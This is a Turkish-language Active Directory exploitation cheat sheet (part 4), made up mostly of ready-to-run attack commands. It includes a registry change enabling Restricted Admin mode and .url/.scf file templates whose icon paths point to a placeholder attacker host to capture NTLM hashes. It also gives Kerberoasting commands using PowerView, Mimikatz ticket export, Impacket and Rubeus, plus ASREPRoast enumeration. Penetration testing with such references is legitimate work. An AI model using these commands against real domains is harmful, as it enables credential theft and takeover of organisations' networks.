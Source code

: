 # Active Directory Exploitation Cheat Sheet - Bölüm 4

- **Restricted Admin Modunu Etkinleştirme:**  
  Eğer uzak makinede Restricted Admin modu devre dışıysa, aşağıdaki kayıt anahtarını oluşturarak etkinleştirebilirsiniz:
  ```powershell
  New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value 0 -PropertyType DWORD
  ```

## URL Dosya Saldırıları

### .url Dosyası
```plaintext
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\<AttackersIp>\%USERNAME%.icon
IconIndex=1

[InternetShortcut]
URL=file://<AttackersIp>/leak/leak.html
```

### .scf Dosyası
```plaintext
[Shell]
Command=2
IconFile=\\<AttackersIp>\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

- **Not:** Bu dosyalar yazılabilir bir paylaşımda bırakıldığında, kurban yalnızca dosya gezgini ile paylaşıma göz atmalı ve dosya açılmasa bile hash yakalama işlemi gerçekleşebilir.
- **Dikkat:** .scf dosya saldırıları Windows'un en son sürümlerinde çalışmaz.
- **Hash Yakalama İçin Araç:** Responder kullanabilirsiniz.

## Faydalı Araçlar

- **Powercat:** PowerShell ile yazılmış bir netcat. Tünelleme, aktarma ve port yönlendirme özellikleri sağlar.
- **SCShell:** Fileless lateral movement aracı, ChangeServiceConfigA'ya dayanır.
- **Evil-Winrm:** WinRM shell aracı.
- **RunasCs:** Windows'un dahili `runas.exe` aracının açık kaynaklı bir versiyonu.
- **ntlm_theft:** URL dosya saldırıları için gerekli tüm dosya formatlarını oluşturur.

## Domain Yetki Yükseltme

### Kerberoast

- **Nedir?:** Standart bir domain kullanıcısı, tüm servis hesaplarının şifre hash'lerini içeren bir kopyasını talep edebilir. Bu hash'ler çevrimdışı brute-force ile kırılabilir.

#### PowerView Kullanımı:
```powershell
# Servis Hesabı Olarak Kullanılan Kullanıcı Hesaplarını Al
Get-NetUser -SPN
# Tüm SPN hesaplarını al, TGS iste ve hash'lerini dump et
Invoke-Kerberoast
# Belirli bir hesap için TGS iste
Request-SPNTicket
# Tüm biletleri dışa aktar
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

#### AD Modülü Kullanımı:
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

#### Impacket Kullanımı:
```bash
python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>
```

#### Rubeus Kullanımı:
```bash
# Tüm SPN hesaplarını kerberoast formatında dump et
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName>
# AES etkin hesaplar dışında kerberoast yap
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /rc4opsec
# AES etkin hesapları kerberoast yap
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /aes
# Belirli bir kullanıcı hesabını kerberoast yap
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /user:<username> /simple
# Kimlik bilgileri belirterek kerberoast yap
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /creduser:<username> /credpassword:<password>
```

### ASREPRoast

- **Nedir?:** Eğer bir domain kullanıcı hesabı Kerberos preauthentication gerektirmiyorsa, geçerli bir TGT isteyebilir ve şifre hash'ini brute-force ile çevrimdışı kırabilirsiniz.

#### PowerView Kullanımı:
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

#### AD Modülü Kullanımı:
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
